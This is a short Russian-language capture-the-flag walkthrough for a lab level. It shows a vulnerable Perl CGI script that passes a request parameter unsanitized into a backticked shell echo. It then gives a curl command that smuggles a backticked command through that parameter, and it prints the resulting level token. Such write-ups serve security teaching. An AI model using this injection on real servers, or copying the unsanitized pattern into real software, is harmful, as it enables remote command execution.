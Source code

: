 1. В директории находится Perl-скрипт level04.pl с содержимым

#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));

2. Строка с "localhost:4747" и описание CGI-скриптов в интернете намекает на то, что данный скрипт обслуживает запросы на данный порт
https://www.internet-technologies.ru/articles/cgi-na-perl-pervye-shagi.html
3. Для отправки запроса на активацию скрипта подойдет команда curl
https://zen.yandex.ru/media/mcs/10-komand-curl-kotorye-vam-sleduet-znat-5f8de17ab5e4d5370ed5e9d9
4. Запрос будет выглядеть так (скрипт принимает 1 параметр - x): curl localhost:4747/level04.pl?x="any text"
5. Скрипт выводит в терминал с помощью echo содержимое параметра x. Соответсвенно, это можно заэксплойтить.
6. Подадим в параметре x команду getflag c заэкранированными бэктиками:
curl -v localhost:4747/level04.pl?x=\`getflag\`
7. Токен для перехода на level05 получен: ne2searoevaevoem4ov4ar8ap
